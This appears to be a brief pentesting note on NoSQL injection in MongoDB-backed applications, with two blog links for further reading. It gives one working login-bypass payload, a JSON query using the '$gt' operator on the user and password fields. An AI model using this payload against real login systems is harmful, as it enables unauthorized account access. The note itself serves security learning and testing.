 # Nosql-injections

Nosql-databases like MongoDB is becoming more and more common. So this needs to be expanded.

## Login bypass

Basically change the query to this.

```javascript
{"user":{"$gt": ""},"pass":{"$gt": ""}}
```


http://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html
http://blog.websecurify.com/2014/08/attacks-nodejs-and-mongodb-part-to.html
